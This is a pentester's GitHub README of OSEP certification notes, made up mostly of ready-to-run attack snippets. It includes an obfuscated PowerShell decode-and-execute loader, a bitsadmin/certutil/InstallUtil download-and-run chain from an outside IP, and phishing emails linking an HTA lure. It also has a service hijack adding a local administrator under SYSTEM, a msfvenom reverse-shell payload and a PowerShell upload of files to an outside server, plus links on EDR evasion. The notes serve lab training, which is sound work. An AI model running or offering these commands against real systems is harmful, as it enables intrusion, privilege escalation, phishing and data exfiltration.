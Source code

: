 # OSEP-Notes

This repository contains notes, ideas, and experiments for various techniques and tactics relevant to Offensive Security's OSEP (Offensive Security Experienced Pentester) certification. The goal is to explore and refine advanced attack methodologies, particularly those involving process manipulation, shellcode injection, and evasion techniques.

# Misc Snippets
Unsorted code snippets that dont really have a home elsewhere

Gzip and Base64 encode Powershell strings and script and execute
- https://www.zickty.com/texttogzip
- https://gchq.github.io/CyberChef/#recipe=Gzip('Dynamic%20Huffman%20Coding','','',false)To_Base64('A-Za-z0-9%2B/%3D')&input=d2hvYW1pIC9hbGw&oeol=FF

```powershell
$b = 'H4sIAAAAAAAAAyvPyE/MzQQAAirKwAYAAAA='
$g = [System.Convert]::FromBase64String($b)
$m = New-Object System.IO.MemoryStream(, $g)
$d = New-Object System.IO.MemoryStream
$z = New-Object System.IO.Compression.GZipStream($m, [IO.Compression.CompressionMode]::Decompress)
$z.CopyTo($d)
$d.Seek(0, [System.IO.SeekOrigin]::Begin) | Out-Null
$r = New-Object System.IO.StreamReader($d)
$s = $r.ReadToEnd()
$s | IEX
```

LOLBINS, Download and execute into InstallUtil

```
# Encode binary / file with certutil.exe
certutil -encode C:\Users\Hacker\Source\Repos\IgnoreCLM\IgnoreCLM\bin\x64\Release\IgnoreCLM.exe Data.txt

# Downloads with bitsadmin, decode with certutil back into a binary and execute with InstallUtils.
bitsadmin /Transfer myJob http://192.168.45.216/Data.txt C:\users\student\Data.txt && timeout /t 1 /nobreak >nul && certutil -decode C:\users\student\Data.txt C:\users\student\Data.exe && timeout /t 1 /nobreak >nul && del C:\users\student\Data.txt && timeout /t 1 /nobreak >nul && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U "C:\users\student\Data.exe"
```
Send email to target 
``` bash
# swaks
swaks --body 'Free Loot --> http://192.168.45.170/PHP/test.hta' --add-header "Want sum loot?" --add-header "Content-Type: text/html" --header "Subject: Free loot" -t user@domain.com -f Shell@security.local --server 192.168.226.159

# sendmail
sendemail -t user@domain.com  -f Shell@security.local -s 192.168.226.159 -m "This is the main email body" -u "This is the subject line" -a /home/kali/Doc1.doc
```
Configure service to run a custom command. Explicity setting to run under SYSTEM
```
sc.exe config SNMPTRAP binpath= "net localgroup Administrators domain.local\user /add" obj= "LocalSystem"
```
use nc to scan all local ports
```
for port in {1..65535}; do nc -zv 127.0.0.1 $port 2>&1 | grep succeeded; done
```
auto migrate with metasploit
```
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.45.154 LPORT=8080 -f csharp prependmigrateproc=explorer.exe prependmigrate=true
```
POST files to web server such as HFS.
```powershell
$f= "C:\pentest\ADenum_Report.html" ; $u= "http://192.168.45.194/Uploads/" ; $w= New-Object System.Net.WebClient ; $r= $w.UploadFile($u, "POST", $f)
```


## Macro Phishing Reminders
- Is the payload we are using x86?
- Are we communicating on a well known port?
- Have we tested in a dev environment first?
- Is the macro attached to the document (not global templates?)
## Good checklist
- https://github.com/ApexPredator-InfoSec/ETBD-OSEP

## CyberChef PowerShell -> Base64

- https://gchq.github.io/CyberChef/#recipe=Encode_text('UTF-16LE%20(1200)')To_Base64('A-Za-z0-9%2B/%3D')&input=d2hvYW1p

## PowerShell to C# Conversion

- **Dynamic Invocation in PowerShell and C#**: Ensure the correct use of `.MakeRefByType()` for any types that require referencing so the value is correctly reflected back to the function.

### Resources for Further Reading and Exploration

- **Useful Gists**:
  - [C# and PowerShell Shellcode Execution Examples](https://gist.github.com/xenoscr/99370ecffb07f629ae74e7808cb91450)


 
## Awesome list
- https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/tree/master/offensive-security/code-injection-process-injection


## EDR Evasion Reading
- https://www.crow.rip/crows-nest/mal/dev/inject/syscalls/indirect-syscalls
- https://redops.at/en/blog/direct-syscalls-vs-indirect-syscalls
- https://d01a.github.io/syscalls/


### HTB

- https://z-r0crypt.github.io/blog/2023/04/27/htb-machines-for-osep-preparation/



